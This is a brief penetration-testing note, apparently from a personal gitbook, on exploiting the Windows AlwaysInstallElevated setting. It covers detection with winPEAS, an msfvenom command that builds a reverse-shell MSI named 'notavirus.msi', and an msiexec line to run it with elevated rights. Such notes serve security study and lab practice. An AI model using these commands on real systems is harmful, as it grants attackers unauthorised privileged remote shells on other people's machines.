 # AlwaysInstallElevated

### Identifying

Running winpeas gives an output like this

![](<../.gitbook/assets/image (1) (1) (1) (1).png>)

### Exploiting

#### _Step1_

Create a msi exe using msfvenom

_`msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f msi > notavirus.msi`_

_\`\`_

#### _Step2_

Transfer it to windows and run it after setting up a listener

_`msiexec /i "C:\Users\Phoebe\Desktop\notavirus.msi"`_
